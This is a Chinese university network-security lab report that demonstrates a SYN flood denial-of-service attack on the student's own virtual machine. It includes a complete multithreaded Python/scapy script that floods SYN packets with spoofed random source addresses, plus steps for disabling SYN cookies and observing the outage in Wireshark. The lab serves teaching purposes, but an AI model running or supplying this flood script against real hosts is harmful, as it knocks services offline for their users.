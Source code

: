 ```yaml
---
title: 网络安全实验报告6——使用Python实现SYN Flood攻击实验
categories:
  - QFNU
  - 网络安全
  - 实验报告
tags:
  - 网络安全原理实验报告
  - Python
  - SYN Flood攻击
  - QFNU
abbrlink: 8790bb83
date: 2024-04-28 11:32:51
---
```


## 实验环境

- 操作系统：Windows 11 23H2

- 抓包工具：WireShark

- 虚拟化软件：VMware Workstation 16

- 虚拟机操作系统：Ubuntu 18.04.1

## 实验过程

### 攻击代码

使用 Python 编写的实现 SYN Flood 攻击的代码：

```python
from scapy.all import *
from random import randint
import threading


def randomIP():
    ip = ".".join(map(str, (randint(0, 255) for _ in range(4))))
    return ip


def randInt():
    x = randint(1000, 9000)
    return x


def SYN_Flood(dstIP, dstPort, counter):
    total = 0
    print("正在发送数据包……")
    for x in range(0, counter):
        s_port = randInt()
        s_eq = randInt()
        window = randInt()

        IP_Packet = IP()
        IP_Packet.src = randomIP()
        IP_Packet.dst = dstIP

        TCP_Packet = TCP()
        TCP_Packet.sport = s_port
        TCP_Packet.dport = dstPort
        TCP_Packet.flags = "S"
        TCP_Packet.seq = s_eq
        TCP_Packet.window = window

        send(IP_Packet / TCP_Packet, verbose=0)
        total += 1
        print("\n该线程发送的数据包个数：%i\n" % total)


def main():
    dstIP, dstPort = '192.168.10.131', 8000

    num_threads = 100
    counter_per_thread = 100000
    threads = []

    for _ in range(num_threads):
        t = threading.Thread(target=SYN_Flood, args=(dstIP, dstPort, counter_per_thread))
        t.start()
        threads.append(t)

        for t in threads:
            t.join()


if __name__ == "__main__":
    main()

```

### 启动虚拟机

1.  查看子网名称和子网地址

    ![子网名称和子网地址](../images/CyberSecurity/6-SYN-flood/image.png)

2.  进入 Ubuntu 虚拟机，打开终端

3.  查看 IP 地址

    ![IP地址](../images/CyberSecurity/6-SYN-flood/image-1.png)

4.  关闭 SYN Cookies 机制

    ![关闭SYN Cookies机制](../images/CyberSecurity/6-SYN-flood/image-2.png)

5.  开启一个简易的 Web 服务

        ![开启一个简易的Web服务](../images/CyberSecurity/6-SYN-flood/image-3.png)

6.  现在宿主主机就可以通过 IP 地址+端口号访问这个 Web 服务了。

    ![访问Web服务](../images/CyberSecurity/6-SYN-flood/image-4.png)

### 抓包

1.  打开 Wireshark，选择网卡，开始抓包

    ![抓包](../images/CyberSecurity/6-SYN-flood/image-5.png)

2.  编辑攻击脚本，将目标 IP 地址和端口号改为宿主主机的 IP 地址和 Web 服务的端口号

    ![修改攻击脚本](../images/CyberSecurity/6-SYN-flood/image-6.png)

3.  运行攻击脚本，开始发送 SYN 包

    ![运行攻击脚本](../images/CyberSecurity/6-SYN-flood/image-7.png)

4.  访问 Web 服务，查看服务器的响应情况

    ![访问Web服务](../images/CyberSecurity/6-SYN-flood/image-8.png)

5.  停止抓包，查看攻击结果

    ![停止抓包](../images/CyberSecurity/6-SYN-flood/image-9.png)

可以发现，Wireshark 捕捉到大量的 SYN 数据包，服务端由于大量的 SYN 请求，无法及时响应，导致连接超时。
